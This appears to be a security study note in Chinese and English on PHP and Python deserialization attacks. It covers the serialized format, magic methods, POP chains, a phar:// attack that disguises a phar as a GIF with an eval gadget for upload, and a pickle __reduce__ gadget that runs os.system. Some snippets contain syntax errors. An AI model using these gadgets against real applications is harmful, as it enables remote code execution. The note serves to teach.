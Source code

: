 # Unserialization
**序列化：將物件轉換成字串; 反序列化：將字串轉換成物件**.  
*  [PHP 反序列化](#PHP-反序列化)  
*  [Python 反序列化](#python-反序列化)  
  
# PHP 反序列化
當`unserialize()`的參數可控時，我們可以構造攻擊字串去覆蓋特定變數來控制程式流程。**POP CHAIN**在反序列化中非常重要，擔任串起`unserialize()`和各個magic functions的角色。  

## Serialization vs Unserialization
```php
class pwnch(){
  $test = "helloworld";
  function __wakeup(){
      echo "hello again";
  }
}
echo serialize(new pwnch());   // OUTPUT: O:5:"pwnch":1:{s:4:"test";s:10:"helloworld";}
```
輸出: `O`代表物件，`5`是物件名字的長度。`1`是屬性的個數，`4`是變數名字的長度，表達式是`key:value`.  

型態 | 語法  
------------ | -------------  
String | `s:size:value;`  
Integer | `i:value;`  
Boolean | `b:value;`  
NULL | `N;`  
Array | `a:size:{key-type:key-value;value-type:value-value;}`  
Object | `O:strlen(Object):class-name:object size:`  
------------ | -------------  
public | `{s:4:"test"}`  
private | `{s:11:"%00pwnch%00test"}`  
protected | `{s:7:"%00*%00test"}`  

## Magic Function
* `construct()`: 當new一個obj時會呼叫到，但unserialize()不會call到  
* `destruct()`: 當unset一個obj時會呼叫到，而且unserialize也會call到  
* `__sleep()`: 在序列化的第一時間執行  
* `__wakeup()`: 在反序列化的第一時間執行  
* `__toString()`: 在`echo`一個obj時會呼叫到。這個雖然跟反序列化的呼叫鏈沒有直接關係，可是可以作為POP CHAIN的一部分！  
其實object就是一個週期，你一旦宣告了就算沒有unset，thread結束php還是會自己call `destruct`去把物件解體。  

## unserialize With phar
Sam Thomas在2018年BH中發表了一種新的，不需要`unserialize()`就能觸發反序列化的方式。那就是使用`phar://`。  
危險就在於，只要函數背後是用phar去處理元數據的就能觸發反序列化！  
```php
// 以下函數都有危險了:)
file_exists, file_get_contents, file_put_contents, file, fopen, is_dir, is_executable, is_file, is_link, is_readable, is_writable, copy, unlink, stat, readfile
```  
自己寫個小測試:  
```php
class Test {
        public function __destruct() {
            echo 'unserialization happen!';
      }
}

file_exists($filename);
// $filename = phar://uploaded/xxx.gif
```  

## What is phar
PHP can use phar to archive a file. A phar file can be separated into 4 parts: stub(`anything<?php blah; __HALT_COMPILER();?>`), manifest(which is the core of exploit), compressed contents, optional signature.  
```php
$p = new Phar('test.phar');
$p->startBuffering();
$p->addFromString('test.txt', 'text');
$p->setStub('<?php __HALT_COMPILER(); ?>');

class HiClass{}
$o = new HiClass;
$o->data = '1pwnch';
$p->setMetadata($o);
$p->stopBuffering();
```
## How to exploit
Therefore, there are three requirements to implement it: `magic file function`, `uploadable file`, `phar:// is allowed`.  
1. We might not be able to upload the phar file to the website directly. However, we can add other header(stub) to forge it.  
```php
// generate phar
class Test {
   $var out = 'hello';
   function __destruct(){
        eval($this -> out);
   }
}

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");     // forge to gif and upload to application?filename=phar://uploads/exp.gif
..........
```
[參考細節](https://shinmao.github.io/websecurity/2018/11/24/The-Magic-Power-of-Phar/#more)  

2. Trace any function: whether it **calls file open function** in the bottom side, then whether we can control its parameter. What's more interesting, it even can be used to make a DOS attack.  

## xReference
1. [Blackhat议题解读 | 利用 phar 拓展 php 反序列化漏洞攻击面](https://www.anquanke.com/post/id/157657)  
2. [blackhat议题深入 | phar反序列化](https://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247485159&idx=1&sn=50b2e94d2d6fc5f69c540113ae9b3f1c&chksm=e89e2e3fdfe9a729869444aa593e97b52970add524b219553f646e8af2aec06e25e8678e7dde&mpshare=1&scene=23&srcid=0822QPN3ZXccNvKuWTQoahLi#rd)

# Python 反序列化
[關於模塊的細節我相當推這篇文章](https://www.jianshu.com/p/5f936abf31f7?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation)  
Functions **pickle** and **cPickle** also can realize the function of serialization  
1. `cPickle.dumps`: object -> string  
2. `cPickle.loads`: string -> object  
You can also use dump/load，but I won't talk about it here.  
vulnerability of unserialization in python is more serious than in php，we can use this module to build RCE！  

## Magic Function
`reduce` will change the target of unserialization，therefore the parameter is controllable
```python
// magic function: reduce
import cPickle
import os

class People(object):

    def __init__(self,username,password):
        self.username = username
        self.password = password

    def __reduce__(self):
        return (os.system, ('ls',))

michael = People('admin','password')
print cPickle.loads(cPickle.dumps(michael))
// Output: ls (the result of ls
```  
We need `cPickle.loads` to trigger the vulnerability. His type of parameter is string，therefore we cannot use `cPickle.loads(michael)`，I use dumps to convert it inside.  

## Exploit
It's always combined with the web in CTF，such as `<?php system("echo $data | python vul.py")?>`. There might be a IO in `vul.py`，so I should deliver my data to the object with **magic function** which has been converted to string.  

## Reference3
1. [Python反序列化小记](https://www.jianshu.com/p/061d2c594d97)  
2. [序列化和反序列化模块pickle介绍 | Python库](https://www.jianshu.com/p/5f936abf31f7?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation)
